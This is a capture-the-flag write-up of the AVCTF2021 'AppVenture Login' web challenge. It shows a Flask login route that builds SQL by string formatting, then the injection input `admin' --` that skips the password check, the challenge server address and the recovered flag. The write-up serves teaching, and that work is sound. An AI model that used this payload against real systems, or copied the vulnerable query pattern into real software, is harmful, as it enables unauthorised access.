 ```yaml
---
title: "[AVCTF2021] AppVenture Login Part 1"
slug: avctf2021-av-login-p1
author: [zhaoyun]
date: 2021-12-21
tags: [ctf, web, writeup]
---
```


> Well, I haven't taken CS6131 yet but databases should be easy right??

From the description we can see the keyword databases, based on prior knowledge of the module CS6131, we can be pretty sure this is related to SQL.

Since the source operates on a simple template string SQL command, we can apply simple SQL injection and skip the password check.

```python
@app.route("/login", methods=["post"])
def login():
    username = request.form.get('username', default='', type=str)
    password = request.form.get('password', default='', type=str)
    users = db.execute(f"select id from users where name='{username}' and password='{password}'").fetchall()
    if users:
        return Response(flag1, mimetype='text/plain')
    return Response('Login failed', mimetype='text/plain')
```

In SQL, comments can be made with `--`

To skip the password check, we can simply input `admin' --` in username and leave password blank, which would result in the following command

```sql
select id from users where name='admin' --' and password=''
```

Everything behind `--` is ignored and we successfully log in as admin

### http://35.240.143.82:4208/login

```
flag{you_can_pass_cs6131_now}
```

Flag obtained
